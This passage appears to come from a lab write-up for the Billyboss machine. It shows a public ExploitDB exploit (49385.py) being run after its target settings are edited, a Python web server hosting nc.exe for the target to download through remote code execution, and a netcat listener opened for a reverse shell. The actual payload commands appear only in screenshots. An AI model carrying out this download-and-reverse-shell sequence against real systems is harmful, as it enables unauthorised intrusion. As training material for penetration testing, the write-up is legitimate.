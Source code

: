 # Exploit

I downloaded the exploit to my current directory and changed the target URL, username and password parameters to match the target machine, to get my shell I used nc.exe (netcat) which I first had to use the RCE to download nc.exe to the target.
~~~shell
Saving exploit locally
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ cp /usr/share/exploitdb/exploits/java/webapps/49385.py . 
~~~
Starting HTTP server to host nc.exe
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ python -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
Editing exploits parameters to download nc.exe on target via RCE

![Billyboss](/assets/img/BillybossPG(5).png)

Run the exploit
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ python3 49385.py
Logging in
Logged in successfully
Command executed
~~~
As shown below the file was successfully downloaded by the target

![Billyboss](/assets/img/BillybossPG(6).png)

I then started a netcat listener on my attack host on port 445
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ nc -nvlp 445 
listening on [any] 445 ..
~~~
I changed the RCE to now execute nc.exe and connect to my listener on port 445

![Billyboss](/assets/img/BillybossPG(7).png)
